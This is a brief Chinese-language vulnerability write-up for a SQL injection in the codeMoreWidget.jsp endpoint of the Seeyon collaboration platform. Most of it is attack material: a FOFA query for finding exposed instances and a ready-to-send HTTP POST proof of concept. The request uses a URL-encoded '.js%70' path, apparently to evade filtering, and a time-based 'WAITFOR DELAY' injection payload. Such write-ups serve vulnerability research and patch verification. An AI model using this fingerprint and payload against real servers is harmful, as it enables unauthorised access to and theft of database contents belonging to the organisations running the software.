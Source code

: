 **fofa**

```
body="applyTheme/css/StyleSheet.css"
```

**一、漏洞简述**

致远互联智能协同是一个信息窗口与工作界面,进行所有信息的分类组合和聚合推送呈现。通过面向角色化、业务化、多终端的多维信息空间设计,为不同组织提供协同门户,打破组织内信息壁垒, 构建统一协同沟通的平台，其接口codeMoreWidget.jsp存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

**二、漏洞检测poc**

```yaml
POST /common/codeMoreWidget.js%70 HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; CrOS i686 3912.101.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/27.0.1453.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close

code=1';WAITFOR DELAY '0:0:5'--
```

